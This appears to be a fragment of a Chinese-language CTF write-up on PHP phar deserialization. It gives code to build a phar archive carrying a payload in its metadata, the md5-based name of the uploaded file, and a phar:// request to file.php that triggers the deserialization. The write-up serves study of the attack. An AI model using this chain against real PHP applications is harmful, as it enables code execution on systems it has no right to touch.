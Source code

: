 ```php
@unlink('phar.phar');
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");
$phar->setMetadata($payload);
$phar->addFromString("abc.txt", "qaq");
$phar->stopBuffering();
```

## 计算文件名

```php
<?php
echo md5('phar.jpg' . '10.244.80.206') . '.jpg'
```

```
42574e9d70ad4a54c530fd9a294a46dc.jpg
```

## `phar`协议读取
```
/file.php?file=phar://upload/42574e9d70ad4a54c530fd9a294a46dc.jpg
```

![](<./img/Pasted image 20230116105804.png>)

![](<./img/Pasted image 20230116105849.png>)

#Web #PHP #phar #反序列化 